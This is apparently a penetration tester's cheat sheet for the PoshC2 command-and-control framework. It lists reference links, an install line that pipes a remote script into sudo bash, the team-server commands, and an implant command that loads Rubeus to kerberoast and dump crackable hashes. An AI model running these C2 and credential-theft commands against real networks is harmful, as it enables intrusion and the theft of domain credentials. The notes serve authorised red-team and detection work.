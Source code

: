 # PoshC2

- [https://github.com/nettitude/PoshC2](https://github.com/nettitude/PoshC2)
- [https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/](https://labs.nettitude.com/blog/detecting-poshc2-indicators-of-compromise/)
- [https://xakep.ru/2023/08/18/interstellar-c2/](https://xakep.ru/2023/08/18/interstellar-c2/)
- [[PDF] A Deep Dive Into a PoshC2 Implant (Vlad Pasca, Senior Malware)](https://resources.securityscorecard.com/all/poshc2-implant)




## Install

```
$ curl -sSL https://github.com/nettitude/PoshC2/raw/dev/Install.sh | sudo bash -s -- -p /opt/PoshC2 -b dev
```




## Run

List projects:

```
$ posh-project -l
```

Show current project:

```
$ posh-project -c
```

Create a new project:

```
$ posh-project -n <PROJECT_NAME>
```

Adjust config:

```
$ posh-config
```

Start team server:

```
$ posh-server
```

Connect to the team server:

```
$ posh -u snovvcrash
```




## Cheatsheet

[Load](https://poshc2.readthedocs.io/en/latest/usage/loadingmodules.html) .NET assembly and run it (available for agents that load CLR):

```
C# 01> loadmodule /tmp/Rubeus.exe
C# 01> run-exe Namespace.Class Assembly <args>
C# 01> run-exe Rubeus.Program Rubeus kerberoast /usetgtdeleg /format:hashcat
```

